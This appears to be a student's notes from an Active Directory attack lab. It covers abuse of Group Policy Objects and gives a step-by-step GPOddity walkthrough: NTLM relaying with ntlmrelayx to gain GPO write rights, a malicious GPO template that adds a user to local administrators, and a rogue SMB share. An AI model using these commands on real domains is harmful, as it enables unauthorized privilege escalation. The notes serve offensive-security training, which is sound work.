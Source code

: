# 5.1.3 - GPO Abuse

## [Group Policy Object](../../network-security-2/2.1-1.md)

There're multiple attacks that can be abused Group Policy Object such as:

* EvilGPOs (Immediate Schedule Task)
* Add Local Admin
* Modify Group Policy
* Grant Rights (Generic All)
* Grant Ownership

### GPOddity

GPOddity combines NTLM relaying and modification of Group Policy Container.

By relaying credentials of a user who has WriteDACL on GPO, we can modify the path (gPCFileSysPath) of the Group Policy Template (default is SYSVOL).

Using this, we can load malicious template from a location controller by attacker.

## Learning Obj 5

_Abuse an overly permissive Group Policy to add student to the local administrators group on domain_

```powershell
#This Jenkins vs has password policy without a restrictive rule, than can be potentially abused via brute force (Hydra)
Get-DomainGPO -Identify 'DevOps Policy'
. C:\AD\Tools\PowerView.ps1
Get-DomainGPO -Identity 'DevOps Policy' #Obtain gpcfilesyspath
```

```bash
#On Linux Attacker Machine
sudo ntlmrelayx.py -t ldaps://<IP_DC> -wh <IP_VM> --http-port '80,8080' -i --no-smb-server
#It will start an LDAP shell (127.0.0.1:11000), we can connect to it open a new tab/shell
nc 127.0.0.1 11000
write_gpo_dacl student1 {GPO_Name_Value_Eg_0BF8D01DC...} #Add studient1 to GPO with GUID indicated.
cd /mnt/c/AD/Tools/GPOddity
#Generate malicious GPTemplate using gppoddity.py
sudo python3 gpoddity.py --gpo-id 'GPO_Name_Value' --domain 'Domain_Name' --username 'student1' --password 'Password_Value' --command 'net localgroup administrators student1 /add' --rogue-smbserver-ip '<IP_VM> --rogue-smbserver-share 'std1-gp' --dc-ip 'DC_IP' --smb-mode none
#After that we need to execute on Windows Machine std1-gp
mkdir /mnt/c/AD/Tools/std1-gp
cp -r /mnt/c/AD/Tools/GPOddity/GPT_Out/* /mnt/c/AD/Tools/std1-gp
net share std1-gp=C:\AD\Tools\std1-gp
icacls "C:\AD\Tools\std1-gp" /grant Everyone:F /T #we became System32
#If we execute again: Get-DomainGPO -Identity "DevOps Policy" the gpcfilesyspath is changed
```
